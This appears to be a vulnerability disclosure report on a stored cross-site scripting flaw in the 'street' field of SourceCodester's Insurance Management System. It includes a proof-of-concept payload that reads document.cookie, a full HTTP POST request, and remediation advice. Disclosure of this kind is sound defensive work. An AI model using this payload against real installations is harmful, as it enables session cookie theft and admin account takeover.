 # Stored Cross-Site Scripting Vulnerability in SourceCodester Online Insurance Management System

## Vendor and Product Information:

- **Vendor:** Sourcecodester
- **Product:** Insurance Management System
- Product URL: [Insurance Management System](https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html)

## Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Insurance Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Street" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.

## Issue Details

- **Vulnerability Name:** Stored XSS in Street
- **Severity: High**
- **Affected URL:** http://localhost/e-insurance/Script./core/new_account
- **Affected Parameter:** street
- **HTTP Method:** POST

## Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Street" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Street" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.

## Proof Of Concept

1. Configure a web proxy in your browser.
2. Navigate to the URL in the browser http://localhost/e-insurance/Script./ and click on “**New Account**”.
3. Fill in the desired data in the input fields and click on Create Account. Intercept the request in the web proxy. Modify the **street** parameter as shown below and send the request to the server.
    
    ```bash
    fname=demo&lname=Demo&gender=Male&phone=889790987&city=Demo&street=<h1+onmouseover=confirm(document.cookie)>Demo</h1>&email=demo@demo.com&password=12345678&submit=1
    ```
    
4. The account is successfully created.
5. In the browser having admin account logged in, navigate to the users section and see the XSS being executed with the authentication cookies as well, which will result in the Account Takeover of **Admin.**

https://drive.google.com/file/d/1yTIeXAPs3PJcQwj9gxhvs92zTdBwKGVB/view?usp=sharing

## Payload:

```bash
fname=demo&lname=Demo&gender=Male&phone=889790987&city=Demo&street=<h1+onmouseover=confirm(document.cookie)>Demo</h1>&email=demo@demo.com&password=12345678&submit=1
```

## Request:

```bash
POST /e-insurance/Script./core/new_account HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 350
Cookie: PHPSESSID=klf9ln8ogrll5cv5gdusqnln9u; __insuarance__logged=1; __insuarance__key=AGURMU83J20CB8T91A05

fname=demo&lname=Demo&gender=Male&phone=889790987&city=Demo&street=<h1+onmouseover=confirm(document.cookie)>Demo</h1>&email=demo@demo.com&password=12345678&submit=1
```

## Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites. 

## Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.

## References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/

## Weakness Enumeration:

[CWE-79](https://cwe.mitre.org/data/definitions/79.html)

---

This report highlights the Stored XSS vulnerability present in the street parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.